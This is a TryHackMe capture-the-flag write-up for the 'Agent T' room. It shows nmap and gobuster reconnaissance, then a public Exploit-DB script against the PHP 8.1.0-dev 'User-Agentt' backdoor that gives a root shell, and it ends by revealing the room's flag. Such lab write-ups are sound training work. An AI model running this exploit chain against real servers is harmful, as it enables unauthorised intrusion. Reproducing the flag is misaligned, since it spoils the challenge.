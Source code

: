 ```yaml
---
title: TryHackMe - Agent T
description: A write-up for the Agent T Room on TryHackMe
date: 2024-09-21 13:25 +0300
categories: [TryHackMe, CTF]
tags: [tryhackme, writeup, ctf]
---
```


# TryHackMe: Agent T

Link to the room: [TryHackMe](https://tryhackme.com/r/room/agentt)

## Process

This write-up is for the **Agent T** Room on TryHackMe, which is a beginner-level CTF challenge.

When starting the room, I export target machine's IP address and start from nmap:

```sh
export IP=10.10.26.214
nmap -A $IP

Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-21 13:00 EEST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 2.00% done; ETC: 13:00 (0:00:00 remaining)
Nmap scan report for 10.10.26.214
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

Alright, so we have port 80 open. In the browser, it looks like a admin dashboard of some sort:
![Port 80](/assets/img/posts/tryhackme-agent-t/port80.png)
_Port 80_

Now, let's scan directories on port 80:

```sh
gobuster dir -u http://$IP -w /usr/share/wordlists/discovery/directory_list_2.3_medium.txt 

===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.26.214/73250ea9-87de-4042-a587-c522197f3822 => 200 (Length: 42131). To continue please exclude the status code or the length
```

Let's try again with blocked 200 responses:
```sh
gobuster dir -u http://$IP -w /usr/share/wordlists/discovery/directory_list_2.3_medium.txt -b 200
```

Nothin was returned here. In this case, let's take a step back and take a closer look at the page and at the versions. For the frontend, there is SB Admin 2 Bootstrap theme, and for the backend there is PHP 8.1.0-dev. In [Exploit DB](https://www.exploit-db.com), I found [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933). This is great, let's try this RCE (the script from Exploit DB). 

```sh
python3 php810dev_exploit.py

Enter the full host url:
http://10.10.26.214 

Interactive shell is opened on http://10.10.26.214 
Can't acces tty; job crontol turned off.
$ whoami
root

$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
```

## Answer
<details>
    <summary>Flag</summary>
    <p>flag{4127d0530abf16d6d23973e3df8dbecb}</p>
</details>